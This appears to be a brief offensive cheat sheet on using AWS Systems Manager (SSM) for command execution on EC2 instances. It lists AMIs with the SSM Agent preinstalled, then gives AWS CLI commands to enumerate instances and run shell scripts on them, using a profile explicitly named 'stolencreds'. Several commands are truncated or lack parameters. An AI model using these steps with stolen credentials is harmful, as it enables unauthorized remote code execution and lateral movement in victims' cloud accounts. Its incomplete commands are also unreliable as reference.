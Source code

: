 # AWS -SSM - Command Execution

## The ssm-user account is not removed from the system when SSM Agent is uninstalled

### SSM Agent is preinstalled, by default, on the following Amazon Machine Images (AMIs):

 - Windows Server 2008-2012 R2 AMIs published in November 2016 or later

 - Windows Server 2016 and 2019

 - Amazon Linux

 - Amazon Linux 2

 - Ubuntu Server 16.04

 - Ubuntu Server 18.04

 - Amazon ECS-Optimized

### Commands:

 - aws ssm describe-instance-information --profile stolencreds --region eu-west-1

 - aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript"

 - aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query

### Eg:

 - aws ssm send-command --instance-ids "i-05b████████adaa" --document-name "AWS-RunShellScript
